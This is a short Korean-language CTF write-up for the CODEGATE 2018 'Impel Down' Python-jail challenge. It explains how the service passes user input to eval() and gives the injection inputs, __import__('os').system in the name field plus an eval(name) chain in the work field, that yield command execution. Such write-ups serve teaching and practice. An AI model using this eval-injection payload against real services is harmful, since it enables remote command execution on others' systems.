 ```yaml
---
layout: post
title:  "CODEGATE 2018 Impel_Down Writeup"
date:   2018-02-12 05:45:13 -0400
categories: ctf
---
```


### Impel Down
nc로 문제에 접속해보면 `PyJail`이라는 프로그램이 실행된다. 프로그램명처럼 이 프로그램을 벗어나면(?) 문제를 풀 수 있을 것 같다.
맨처음에 아무거나 입력했는데 에러 메세지가 출력된다.

```
################## Work List ##################
  coworker        : Find Coworker For Escape
  tool            : Find Any Tool
  dig             : Go Deep~
  bomb            : make boooooooomb!!!
###############################################
dig | a
Traceback (most recent call last):
  File "Impel_Down.py", line 140, in <module>
    result = eval("your."+work+"()")
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
```

eval() 함수에서 에러가 발생했다. 이를 통해 원하는 코드를 실행할 수 있을 거라고 생각했다. 
여러가지 입력해보니깐 문자열의 입력길이도 제한이 있고 #, +, _ 같은 문자도 필터링한다. 하지만 이름을 입력하는 곳에선 이러한 제약이 없다.
그래서 이름엔 "\_\_import\_\_('os').system('Command')", Work List엔 "dig,eval(name),your.dig"와 같은 식으로 입력하면 원하는 코드를 실행할 수 있다.

> eval() 함수가 여러 연산을 리턴하는 걸 몰랐었다... (ex. eval("1+1, 2-1") ==> (2,1))
